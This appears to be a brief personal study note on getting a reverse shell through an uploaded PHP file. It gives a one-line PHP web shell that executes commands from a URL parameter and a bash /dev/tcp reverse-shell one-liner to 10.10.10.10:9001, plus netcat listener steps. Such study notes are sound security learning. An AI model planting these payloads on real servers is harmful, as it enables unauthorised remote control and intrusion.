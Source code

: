 +++
title = 'Reverse web-shell'
date = 2024-07-22T09:10:24+02:00
draft = false
+++

    ## Reverse shell 

- By passing the php  file we can open the reverse shell 


```php 
<?php system($_GET["cmd"]);?>
```
1. Checkout [reverse shell](https://www.revshells.com/)
2. Use dev tcp to open the shell since [[netcat]] is not avaiable 
	1. ex *sh -i >& /dev/tcp/10.10.10.10/9001 0>&1*
3. Create the listner with the [[netcat]]
4. Create a **python server** that catches the shell and enables interactivity


>[!quote]  [bash_MAIN]({{< ref "posts/Linux/commands/bash_MAIN.md" >}})